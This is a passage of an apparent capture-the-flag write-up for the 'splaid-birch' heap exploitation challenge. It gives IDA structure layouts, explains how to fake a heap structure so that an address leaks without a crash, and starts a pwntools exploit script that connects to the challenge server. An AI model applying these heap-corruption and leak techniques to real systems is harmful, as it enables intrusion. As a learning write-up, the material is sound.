 To exploit it, we can let `select` to choose a pointer that is on the heap,
this can either be pointers that should be on the heap, or can be the pointer
that we faked on the heap. Then this pointer will be regarded as `data`
structure, as shown below

```assembly  
00000000 data            struc ; (sizeof=0x48, align=0x8, mappedto_6)  
00000000 var2            dq ?  
00000008 var3            dq ?  
00000010 num             dq ?  
00000018 sum             dq ?  
00000020 idx             dq ?  
00000028 btent           btnode ?  
00000048 data            ends

00000000 manager         struc ; (sizeof=0x38, align=0x8, mappedto_7)  
00000000 root            dq ?                    ; XREF: main+39/w  
00000008 compare         dq ?                    ; XREF: main+41/w  
00000010 some_calc       dq ?                    ; XREF: main+4A/w  
00000018 sub_555555554D36 dq ?                   ; XREF: main+53/w  
00000020 next_size       dq ?                    ; XREF: main+6E/w  
00000028 cur_size        dq ?                    ; XREF: main+5C/w  
00000030 buf             dq ?                    ; XREF: main+65/w  
00000038 manager         ends

00000000 btnode          struc ; (sizeof=0x20, align=0x8, copyof_10)  
00000000 parent          dq ?                    ; offset  
00000008 lnode           dq ?                    ; offset  
00000010 rnode           dq ?                    ; offset  
00000018 sum2            dq ?  
00000020 btnode          ends  
```

In order to make it not crash, we don't want this faked structure to get into
complicated algorithm, so we want it to return from `sub_894` directly, that
is to make `parent == null`, which is to make `[p + 0x28] == nullptr`. Also,
since it will print the value of `var3`, we want `[p + 8] ==
address_we_want_to_leak`.

I think the comments in exploit explain my method well :)

```python  
from pwn import *

g_local=True  
context(log_level='debug', arch='amd64')  
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")

if g_local:  
	sh = process("./splaid-birch", env={'LD_PRELOAD':'./libsplaid.so.1'})  
	gdb.attach(sh)  
else:  
	sh = remote("splaid-birch.pwni.ng", 17579)

sendnum = lambda x: sh.sendline(str(x & 0xffffffffffffffff))  
recvnum = lambda : int(sh.recvuntil('\n'), 10)

def add(v2, v3=0):  
	sendnum(5)  
	sendnum(v2)  
	sendnum(v3)

def select(idx):  
	sendnum(4)  
	sendnum(idx)  
	return recvnum()
```